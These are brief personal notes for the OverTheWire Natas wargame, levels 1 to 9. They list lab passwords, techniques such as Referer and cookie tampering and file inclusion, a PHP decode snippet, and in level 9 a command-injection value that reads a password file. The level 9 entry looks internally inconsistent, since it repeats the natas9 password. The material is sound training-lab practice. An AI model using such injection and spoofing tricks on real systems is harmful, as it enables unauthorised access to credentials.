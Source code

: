 # Natas


- level 1: view-source ctrl+u. ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi 
- level 2: No thing on this page: http://natas2.natas.labs.overthewire.org/files/users.txt => natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
- level 3: `<!-- No more information leaks!! Not even Google will find it this time... -->` robots.txt => natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
- level 4: Referer ```Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq ```
- level 5: cookie login ```Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1```
- level 6: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
- level 7: file include. DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
- level 8: decode

``` <?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function decode_secret($encoded){
    echo base64_decode(strrev(hex2bin($encoded)));
}

decode_secret($encodedSecret);

?>
```

password: oubWYf2kBq => natas9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

- level 9: command include in `grep -i $key dictionary.txt. Attack vector: `None dictionary.txt; cat /etc/natas_webpass/natas9; ls` : W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
